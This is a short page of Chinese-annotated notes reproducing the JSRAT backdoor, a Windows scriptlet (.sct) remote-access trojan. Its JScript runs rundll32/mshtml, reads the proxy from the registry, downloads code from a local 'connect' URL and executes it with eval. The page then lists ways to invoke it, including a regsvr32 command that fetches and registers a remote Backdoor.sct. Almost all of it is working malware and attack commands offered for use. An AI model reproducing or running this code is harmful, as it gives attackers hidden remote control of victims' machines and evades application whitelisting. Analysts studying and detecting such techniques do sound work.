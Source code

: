 3. ##### [JSRAT](https://github.com/3gstudent/SCTPersistence/blob/master/JSBackdoor/Backdoor.sct)

   ```javascript
   ###  启动代码
   
   ####  sct 文件中 js部分
   
   <?XML version="1.0"?>
   <scriptlet>
   
   <registration
       description="Component"
       progid="JSRAT"
       version="1.01"
       classid="{10001111-0000-0000-0000-0000FEEDACDC}"
   >
   </registration>
   
   <public>
       <method name="Exec"></method>
   </public>
   <script language="JScript">
   <![CDATA[
   	
   	function Exec()
   	{
   		rat="rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");w=new%20ActiveXObject(\"WScript.Shell\");try{v=w.RegRead(\"HKCU\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Internet%20Settings\\\\ProxyServer\");q=v.split(\"=\")[1].split(\";\")[0];h.SetProxy(2,q);}catch(e){}h.Open(\"GET\",\"http://127.0.0.1/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";
   		new ActiveXObject("WScript.Shell").Run(rat,0,true);
   //		return rat;
   	}
   	
   ]]>
   </script>
   
   </scriptlet>
   
   ###  调用代码
   
   #### js 调用
   test.js:
   var ref = new ActiveXObject("JSRAT");
   ref.Exec();
   
   #### rundll32.exe 方法调用
   rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("JSRAT");x.Exec();
   
   ### 远程sct 文件注册 
   regsvr32 /s /i:http://192.168.1.1/Backdoor.sct scrobj.dll
   
   ```
